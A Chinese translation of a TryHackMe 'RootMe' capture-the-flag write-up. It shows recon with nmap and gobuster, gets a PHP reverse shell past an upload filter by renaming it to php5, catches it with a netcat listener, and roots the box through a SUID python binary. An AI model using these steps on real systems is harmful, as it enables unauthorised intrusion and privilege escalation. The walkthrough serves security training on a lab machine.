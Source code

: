 # TryHackMe: RootMe

> 原文：<https://infosecwriteups.com/thm-rootme-94a48def69d3?source=collection_archive---------1----------------------->

![](img/7df105a0a01394930adca5604d679b32.png)

## 简介:

你好，绅士！正如你从标题中知道的，这是关于什么的。

**所以让我们根**

## 任务 1:部署机器

```
Q1\. Deploy the machine.
```

## 任务 2:侦察

为了让事情变得更容易，我过去常常导出我的 IP 以节省时间

```
export IP=10.10.154.15
```

从现在开始，每次你想调用 ip，就用 **$IP**

现在，让我们开始扫描:—

```
nmap -sV -oN nmap $IP
```

![](img/523d88221396ae3f1c63003c50faa4d0.png)

nmap 结果

通过扫描，我们得到了 2 个打开的端口，即

**80**(**http**)&22(**ssh**)

让我们四处看看 **HTTP (** 因为我们没有任何用户名和他们的凭证为 **SSH** 连接 **)** ，我们得到了:

```
http://$IP
```

![](img/bd857c6e7499563a7dbcd9dc9a9392ec.png)

http (80)

什么都没有，只是一个简单的页面。让我们做一些目录扫描，

```
gobuster dir -u $IP -w <wordlist>I used 'directory-list-lowercase-2.3-medium.txt'
```

发现了一些有趣的页面，其中一个是:

![](img/5024882e393841b0f35b29492d39a142.png)

http://$IP/panel

## 任务 3:获得外壳

所以在**/面板**上有一个上传功能。

于是上传了我的 **rev_shell.php** 代码，用 **nc** 在后台运行，但是没有结果(没有得到 rev-shell):(用 diff ext 即 png，jpg，html，php5 试了一下，成功了。它反映在网页上。

随着我的 rev_shell.php5 上传完毕，现在是时候访问/运行它了。

现在要访问/运行同一个文件该怎么办呢？

我们在 gobuster 的结果中发现了 **/uploads** 目录。

因此，通过 http://$IP/uploads(并点击所需的文件)或 http://$ IP/uploads/rev _ shell . PHP(通过在 URL 本身中指定文件)来访问文件

**但是**，在此之前不要忘记运行一个监听器&，为此我们使用 **netcat。**

```
nc -lnvp 4444
```

现在你已经完成了，让我们通过之前讨论过的链接运行 php 脚本。

是的，我们得到了 rev-shell B-)

![](img/d83f17de259dbdec46f66fee499be260.png)

反向外壳

在此之后，尝试了一些正常的冲浪，即在 **/home** 中搜索旗帜，但没有结果。在别的什么地方。然后我记得这个命令名为' **find** '(顾名思义，它有助于查找文件) :

```
find / -name user.txt 2> /dev/null
```

还有躲猫猫。！

## 任务 4:权限 Esc

现在让我们检查一下特权 Esc 策略。

1.  我试过`sudo -l`命令，没有运气:(
2.  已检查`SUID`文件:

```
find / -type f -perm -04000 -ls 2>/dev/null
```

瞧啊。！我们有一份文件。有 python，我们可以作为 sudo 运行。

->在 [GTFObins](https://gtfobins.github.io) 上检查，

->运行脚本

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

->轰，我们是**根。**并得到了 root.txt 标志:)

![](img/15e2cad778a75a879c7b288cd755f042.png)

就这样，我们成功地完成了这个房间。做这项挑战是一次奇妙的经历。希望你喜欢，然后考虑鼓掌:)

> 链接:

|| [房间](https://tryhackme.com/room/rrootme) || [推特](https://twitter.com/namx05) || [GitHub](https://github.com/namx05) ||

[](https://tryhackme.com/room/rrootme) [## TryHackMe | RootMe

### 一个新手用的 ctf，可以 root 我吗？

tryhackme.com](https://tryhackme.com/room/rrootme)